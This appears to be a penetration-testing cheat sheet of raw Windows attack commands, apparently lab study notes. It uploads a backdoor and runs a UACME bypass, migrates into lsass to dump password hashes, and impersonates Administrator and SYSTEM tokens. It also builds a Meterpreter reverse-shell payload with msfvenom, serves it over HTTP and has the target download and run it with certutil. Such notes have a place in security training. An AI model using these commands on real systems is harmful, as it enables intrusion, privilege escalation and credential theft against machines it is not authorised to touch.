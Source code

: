 ```
## Meterpreter (Unprivileged session)
cd C:\\
mkdir Temp
cd Temp
upload /root/backdoor.exe
upload /root/Desktop/tools/UACME/Akagi64.exe
shell
Akagi64.exe 23 C:\Temp\backdoor.exe

akagi32.exe [Key] [Param]
akagi64.exe [Key] [Param]

## Elevated Meterpreter Received on the listening session
ps -S lsass.exe
migrate <lsass_PID>
hashdump
```

**Access Token**

```
# ACCESS TOKEN IMPERSONATION

## METASPLOIT - Meterpreter (Unprivileged session)
pgrep explorer
migrate <explorer_PID>
getuid
getprivs

load incognito
list_tokens -u
impersonate_token "ATTACKDEFENSE\Administrator"
getuid
getprivs # Access Denied
pgrep explorer
migrate <explorer_PID>
getprivs
list_tokens -u
impersonate_token "NT AUTHORITY\SYSTEM"
```

**Windows Credential Dumping**



```
# Exploitation
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<TARGET_IP> LPORT=1234 -f exe > payload.exe

python -m SimpleHTTPServer 80

## METASPLOIT
setg RHOSTS <TARGET_IP>
setg RHOST <TARGET_IP>

use exploit/multi/handler 
set payload windows/x64/meterpreter/reverse_tcp
set LHOST <LOCAL_HOST_IP>
set LPORT <LOCAL_PORT>
run

## On target system
certutil -urlcache -f http://<TARGET_IP>/payload.exe payload.exe
# Run payload.exe

# METASPLOIT - Meterpreter
```